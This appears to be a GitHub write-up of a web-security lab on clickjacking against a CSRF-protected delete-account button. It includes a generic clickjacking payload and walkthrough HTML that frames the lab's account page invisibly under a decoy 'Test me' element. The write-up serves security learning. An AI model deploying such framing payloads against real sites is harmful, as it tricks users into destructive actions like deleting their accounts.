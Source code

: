 Title: Basic clickjacking with CSRF token protection
Desc:  This lab contains login functionality and a delete account button that is protected by a CSRF token. A user will click on elements that display the word "click" on a decoy website.
To solve the lab, craft some HTML that frames the account page and fools the user into deleting their account. The lab is solved when the account is deleted.
You can log in to your own account using the following credentials: wiener:peter 


# Theory:
Example of clickjacking payload:
```
<head>
	<style>
		#target_website {
			position:relative;
			width:128px;
			height:128px;
			opacity:0.00001;
			z-index:2;
			}
		#decoy_website {
			position:absolute;
			width:300px;
			height:400px;
			z-index:1;
			}
	</style>
</head>
...
<body>
	<div id="decoy_website">
	...decoy web content here...
	</div>
	<iframe id="target_website" src="https://vulnerable-website.com">
	</iframe>
</body>
```

# Walkthrough:
Go to the exploit server and store this example and then click view exploit:
```
<style>
    iframe {
        position:relative;
        width: 400;
        height: 150;
        opacity: 0.1;
        z-index: 2;
    }
    div {
        position:absolute;
        top: 50;
        left: 5;
        z-index: 1;
    }
</style>
<div>Test me</div>
<iframe src="https://0a1200ca0447e04480af7bda00ed00e6.web-security-academy.net/my-account"></iframe>
```
You will get this:
<img width="767" height="251" alt="image" src="https://github.com/user-attachments/assets/89735f9d-afa1-4772-bd1a-0bdb86b36b78" />

You can see, that we have "Test me" and under the "Test me" you can see the iframe. Now, this iframe is positioned badly, because we want Delte button under "Test me" so I need to change my exploit a little.

I changed my code to: 
```
<style>
    iframe {
        position:relative;
        width: 400;
        height: 550;
        opacity: 0.1;
        z-index: 2;
    }
    div {
        position:absolute;
        top: 486;
        left: 50;
        z-index: 1;
    }
</style>
<div>Test me</div>
<iframe src="https://0a1200ca0447e04480af7bda00ed00e6.web-security-academy.net/my-account"></iframe>
```
and now I have elements on good positions.

<img width="842" height="597" alt="image" src="https://github.com/user-attachments/assets/998d9cb7-8e35-43d2-a34a-986f96682ea8" />

<img width="844" height="374" alt="image" src="https://github.com/user-attachments/assets/6dfb2d43-085d-493d-8275-8cc84bfb2af6" />


